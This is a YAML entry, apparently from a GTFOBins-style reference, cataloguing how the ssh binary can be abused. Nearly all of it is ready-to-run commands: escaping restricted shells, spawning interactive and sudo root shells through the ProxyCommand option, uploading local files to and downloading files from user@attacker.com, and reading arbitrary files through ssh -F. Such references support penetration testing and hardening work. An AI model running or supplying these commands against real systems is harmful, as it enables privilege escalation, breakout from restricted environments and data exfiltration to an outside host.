 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo-enabled:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
---
```


